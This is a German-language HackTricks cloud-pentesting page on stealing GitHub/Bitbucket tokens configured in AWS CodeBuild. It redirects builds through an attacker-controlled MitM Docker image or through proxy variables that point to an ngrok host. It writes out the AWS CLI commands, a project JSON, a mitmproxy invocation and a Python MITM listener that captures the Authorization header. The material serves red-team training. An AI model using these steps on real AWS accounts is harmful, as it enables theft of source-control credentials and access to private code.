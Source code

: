 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Wiederherstellung von Github/Bitbucket konfigurierten Tokens

Überprüfe zuerst, ob es Quellanmeldeinformationen gibt, die du leaken könntest:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Wenn Sie feststellen, dass die Authentifizierung zum Beispiel für Github im Konto eingestellt ist, können Sie **exfiltrieren** diesen **Zugang** (**GH token oder OAuth token**) indem Sie Codebuild dazu bringen, ein **bestimmtes Docker-Image** zu verwenden, um den Build des Projekts auszuführen.

Zu diesem Zweck könnten Sie **ein neues Codebuild-Projekt erstellen** oder die **Umgebung** eines bestehenden ändern, um das **Docker-Image** festzulegen.

Das Docker-Image, das Sie verwenden könnten, ist [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dies ist ein sehr einfaches Docker-Image, das die **Umgebungsvariablen `https_proxy`**, **`http_proxy`** und **`SSL_CERT_FILE`** festlegt. Dies ermöglicht es Ihnen, den Großteil des Traffics des im **`https_proxy`** und **`http_proxy`** angegebenen Hosts abzufangen und das in **`SSL_CERT_FILE`** angegebene SSL-Zertifikat zu vertrauen.

1. **Erstellen & Hochladen Ihres eigenen Docker MitM-Images**
* Befolgen Sie die Anweisungen des Repos, um Ihre Proxy-IP-Adresse festzulegen und Ihr SSL-Zertifikat einzurichten und **das Docker-Image zu erstellen**.
* **SETZEN SIE NICHT `http_proxy`**, um keine Anfragen an den Metadaten-Endpunkt abzufangen.
* Sie könnten **`ngrok`** wie `ngrok tcp 4444` verwenden, um den Proxy auf Ihren Host einzustellen.
* Sobald Sie das Docker-Image erstellt haben, **laden Sie es in ein öffentliches Repo hoch** (Dockerhub, ECR...)
2. **Umgebung festlegen**
* Erstellen Sie ein **neues Codebuild-Projekt** oder **ändern** Sie die Umgebung eines bestehenden.
* Stellen Sie das Projekt so ein, dass es das **zuvor generierte Docker-Image** verwendet.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Setzen Sie den MitM-Proxy auf Ihrem Host**

* Wie im **Github-Repo** angegeben, könnten Sie etwas wie verwenden:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Die **mitmproxy-Version, die verwendet wurde, war 9.0.1**, es wurde berichtet, dass dies mit Version 10 möglicherweise nicht funktioniert.
{% endhint %}

4. **Führen Sie den Build aus und erfassen Sie die Anmeldeinformationen**

*   Sie können das Token im **Authorization**-Header sehen:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Dies könnte auch über die aws cli mit etwas wie

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Über das HTTP-Protokoll~~

{% hint style="success" %}
**Diese Schwachstelle wurde von AWS irgendwann in der Woche des 20. Februar 2023 (ich glaube am Freitag) behoben. Ein Angreifer kann sie also nicht mehr ausnutzen :)**
{% endhint %}

Ein Angreifer mit **erhöhten Berechtigungen in über einem CodeBuild könnte das konfigurierte Github/Bitbucket-Token** oder, wenn die Berechtigungen über OAuth konfiguriert wurden, das **temporäre OAuth-Token, das zum Zugriff auf den Code verwendet wird, leaken**.

* Ein Angreifer könnte die Umgebungsvariablen **http\_proxy** und **https\_proxy** zum CodeBuild-Projekt hinzufügen, die auf seine Maschine zeigen (zum Beispiel `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Dann die URL des Github-Repos ändern, um HTTP anstelle von HTTPS zu verwenden, zum Beispiel: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Dann das grundlegende Beispiel von [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) im Port ausführen, auf den die Proxy-Variablen (http\_proxy und https\_proxy) zeigen.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Schließlich klicken Sie auf **Projekt erstellen**, die **Anmeldeinformationen** werden im **Klartext** (base64) an den mitm-Port gesendet:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Jetzt kann ein Angreifer das Token von seinem Computer aus verwenden, alle Berechtigungen auflisten, die es hat, und (miss)brauchen einfacher als die direkte Nutzung des CodeBuild-Dienstes.
{% endhint %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
